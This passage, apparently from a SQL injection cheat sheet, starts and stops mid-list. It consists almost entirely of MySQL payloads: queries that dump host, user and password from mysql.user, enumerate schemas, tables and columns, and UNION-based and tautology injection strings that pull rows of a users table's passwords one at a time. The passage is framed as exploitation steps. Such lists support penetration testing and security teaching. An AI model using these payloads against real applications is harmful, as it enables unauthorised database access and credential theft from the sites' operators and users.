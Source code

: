     ```
    SELECT host, user, password FROM mysql.user;
    ```
*   List databases

    ```
    SELECT schema_name FROM information_schema.schemata;
    SELECT distinct(db) FROM mysql.db
    ```
*   List columns

    ```
    SELECT table_schema, table_name, column_name FROM information_schema.columns WHERE table_schema != ‘mysql’ AND table_schema != ‘information_schema’
    ```
*   List tables

    ```
    SELECT table_schema,table_name FROM information_schema.tables WHERE table_schema != ‘mysql’ AND table_schema != ‘information_schema’
    ```
*   Exfiltrate the different rows of the table. First, find the number of rows in the table:

    ```
    aa' UNION SELECT count(*), users.password FROM users; --
    ```
*   Then select each row:

    ```
    aa' UNION SELECT users.password, users.password FROM users LIMIT 1; --
    ```

    ```
    aa' UNION SELECT users.password, users.password FROM users LIMIT 1 OFFSET 1; --
    ```

    ```
    aa' UNION SELECT users.password, users.password FROM users LIMIT 1 OFFSET 2; --
    ```
*   Exfiltrate the different rows of the table:

    ```
    ' or 'x'='x' order by 1 desc --
    ' or 'x'='x' order by 2 desc --
    ...
    ```

## MySql in-band, union based SQLI exploitation

*   Enumerate user

    ```
    ?id=1 union select 1,2,3,4,user(),6,7,8,9
    ```
*   Enumerate version
